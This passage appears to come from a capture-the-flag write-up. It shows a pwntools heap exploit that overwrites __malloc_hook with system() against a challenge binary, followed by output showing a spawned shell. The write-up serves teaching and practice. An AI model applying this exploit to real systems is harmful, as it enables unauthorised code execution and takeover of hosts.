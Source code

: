 ```python
# Second malloc to get chunk overlapping target
# Calculate distance to target
target_addr = exe.symbols['target']
log.info(f"Target variable address: {hex(target_addr)}")
top_chunk_addr = heap_address + 0x20
log.info(f"Top chunk address: {hex(top_chunk_addr)}")



dist = (malloc_hook_addr - 0x20) - (heap_address + 0x20)
malloc(str(dist).encode(), b'B'*32)
sleep(1)

# Third malloc to overwrite __malloc_hook
# malloc(b'24', p64(0xdeadbeef))

# system()

system_addr = libc.symbols['system']
log.info(f"system() address: {hex(system_addr)}")

malloc(b'24', p64(system_addr))

# Next find '/bin/sh' string in libc
binsh_address = next(libc.search(b'/bin/sh'))
log.info(f"'/bin/sh' string address: {hex(binsh_address)}")

# Trigger __malloc_hook by calling malloc again which will call system('/bin/sh')
# malloc(str(binsh_address).encode(), b'')
malloc(str(heap_address+0x10).encode(), b'')
# As already cleared we start writing from heap_address + 0x10

io.interactive()
```


The exploit output demonstrates successful code execution:

```bash
$ ./exp.py 
#...
[+] use_of_force': pid 159704
[*] Leaked puts address: 0x74a28b86df10
[*] Leaked heap address: 0x11dcd000
[*] Leaked libc base 0x74a28b800000
[*] __malloc_hook address: 0x74a28bbafc10
[*] Target variable address: 0x602010
[*] Top chunk address: 0x11dcd020
[*] system() address: 0x74a28b841b70
[*] '/bin/sh' string address: 0x74a28b977375
[*] Switching to interactive mode
> size: $ whoami
fury
$ date
Saturday 27 September 2025 03:01:38 PM IST
```
